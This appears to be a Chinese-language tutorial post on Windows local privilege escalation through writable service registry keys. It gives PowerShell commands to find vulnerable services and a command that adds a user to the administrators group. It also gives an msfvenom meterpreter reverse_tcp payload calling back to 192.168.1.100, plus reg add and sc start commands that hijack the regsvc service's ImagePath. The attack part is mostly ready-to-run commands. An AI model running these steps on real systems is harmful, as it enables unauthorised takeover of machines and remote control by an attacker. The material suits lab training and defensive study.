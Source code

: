 ```yaml
---
title: windows服务之注册表提权
categories:
- windows
tags:
- windows
---
```

windows服务之注册表提权
===
b站上的[视频教程](https://www.bilibili.com/video/av89388181)

## 用户权限
NT Authority \ SYSTEM又称LocalSystem帐户是内置的Windows帐户。 它是Windows本地实例上功能最强大的帐户（比任何管理员帐户都更强大）。 大多数系统级别（Windows Services）服务和其他一些第三方服务都在帐户中运行

NT Authority \ SYSTEM 是Builtin\Administrator 是系统管理员之一

NT AUTHORITY\INTERACTIVE

交互式用户是当前登录到运行COM服务器的计算机的用户。 如果将身份设置为交互式用户，并且服务器将其类工厂注册为多用途，则所有客户端都将使用服务器的同一实例。

## 注册表

```
powershell
Get-Acl -Path hklm:\System\CurrentControlSet\services\* | select Path,AccessToString | Format-List > 1.txt
查找1.txt “ NT AUTHORITY\INTERACTIVE ”
---
powershell
Get-Acl -Path hklm:\System\CurrentControlSet\services\regsvc | fl
```

## 生成伪造的服务

编译windows_service.c

cmd.exe /k net localgroup administrators user /add

x86_64-w64-mingw32-gcc windows_service.c -o x.exe

```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f exe-service -o x.exe
```
reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d c:\temp\x.exe /f

sc start regsvc

net user user